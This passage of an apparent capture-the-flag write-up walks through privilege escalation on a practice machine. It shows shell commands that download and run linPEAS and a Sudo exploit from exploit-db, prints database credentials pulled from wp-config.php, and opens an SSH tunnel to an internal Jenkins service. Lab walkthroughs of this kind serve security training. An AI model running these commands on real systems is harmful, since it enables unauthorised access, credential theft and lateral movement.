 From the Kali system

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh aubreanna@victim.thm:~/linpeas.sh
```

On the target machine as aubreanna:

``` sh
chmod +x linpeas.sh
./linpeas.sh
```

Interessting finds are the mysqladmin credentials:

```log
╔══════════╣ Analizing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

We also see we have Sudo running in version```1.8.21``` and a check with searchsploit```searchsploit sudo``` reveals a vulnerability to```1.8.20``` "Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation", but no luck running the [exploit](https://www.exploit-db.com/raw/42183).

@Kali

``` sh
wget -O exploit.c https://www.exploit-db.com/raw/42183
gcc -o exploit exploit.c
scp exploit aubreanna@10.10.156.30:~/exploit
```

@aubreanna@internal

``` sh
chmod +x exploit
./exploit
died in main: 57
```

I tried changing the c code but felt like a script kiddy as errors just moved on... so I gave up on this.

## Jenkins

In the home folder of aubreanna there is txt mentioning a local jenkins server.

From kali lets tunnel local port 31340 with ssh to "127.0.0.1:8080" on victim.thm (which we modified at the beginning).

``` sh
ssh -g -L31340:127.0.0.1:8080 -l aubreanna victim.thm
```
